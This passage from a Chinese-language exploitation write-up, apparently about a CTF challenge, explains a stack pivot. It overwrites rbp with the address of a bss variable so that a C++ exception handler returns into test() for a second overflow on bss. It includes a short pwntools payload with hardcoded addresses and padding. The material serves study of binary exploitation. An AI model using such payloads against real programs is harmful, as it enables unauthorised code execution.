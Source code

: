 下面将详细说明每一步的内容

#### 覆盖rbp进行栈转移

首先用name来伪造一个栈底部，然后覆盖rbp为bss段的`name`变量地址，payload 构造如下

```plain
name_addr = 0x4D93D0 #变量name的地址，保证二次溢出时的栈帧仍在bss上
test_addr = 0x401a75 #test函数的地址，再次调用read溢出

io.recvuntil("name?")
payload = p64(name_addr) + p64(test_addr)
io.send(payload)

io.recvuntil("called") 
payload = b'a'*0x30
payload += p64(name_addr)
io.send(payload)
```

可以注意到在`catch handler`结束时，由于我们在bss上留下`[name_addr+8]==test_addr`，ret将再次进入`test()`

[![](assets/1701606727-78c28b444d1b4b2609a7c9ab13976329.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164829-6cad5b32-7d4a-1.png)

并且由于此时栈帧已经被转移到了bss上，图中的栈帧和rsi可见，`read()`将在bss上做栈溢出
